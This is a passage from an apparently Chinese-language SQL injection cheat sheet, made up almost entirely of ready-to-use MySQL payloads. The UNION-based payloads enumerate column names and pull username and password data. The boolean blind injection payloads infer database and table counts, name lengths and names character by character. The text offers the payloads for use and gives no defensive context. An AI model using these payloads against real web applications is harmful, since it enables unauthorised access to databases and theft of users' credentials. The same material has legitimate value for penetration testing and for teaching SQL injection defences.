 #### 获取所有字段名

```mysql
UNION ALL SELECT null,group_concat(column_name),null FROM information_schema.columns WHERE table_schema=数据库名 and table_name=表名
UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',column_name)),0x7e),NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema=数据库名 and table_name=表名
```

#### 获取数据内容

```mysql
union select null,group_concat(id,0x7e,username,0x7e,password),null from 数据库名.表名
```

------

### 盲注

#### 1.布尔盲注

##### 判断数据库数量

```mysql
AND ((SELECT COUNT(schema_name) FROM information_schema.schemata)=1)
```

##### 判断数据库名长度

```mysql
AND ((SELECT LENGTH(database()))=7)  //判断当前数据库名长度
AND ((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7) //判断其他数据库名长度
```

##### 判断数据库名

```mysql
AND ((SELECT ASCII(SUBSTR(database(),第x位,1))=98))//判断当前数据库名第一位
AND ((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码) //判断其他数据库名
```

##### 判断数据库表的数量

```mysql
AND ((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=1)
```

##### 判断表名长度

```mysql
AND ((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=7)
```

##### 判断表名

```mysql
AND ((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码)
```
